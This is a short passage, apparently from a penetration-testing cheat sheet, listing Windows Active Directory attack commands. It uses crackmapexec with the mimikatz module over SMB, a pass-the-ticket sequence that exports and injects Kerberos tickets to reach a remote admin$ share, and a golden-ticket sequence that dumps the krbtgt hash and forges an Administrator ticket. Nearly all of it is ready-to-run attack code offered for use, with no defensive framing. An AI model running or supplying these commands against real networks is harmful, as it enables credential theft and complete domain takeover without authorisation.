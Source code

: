 ```bash
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' #runs specific command-M 
```

### Pass the ticket

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

### Golden Ticket

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
misc::cmd
klist
dir \\<RHOST>\admin$
```
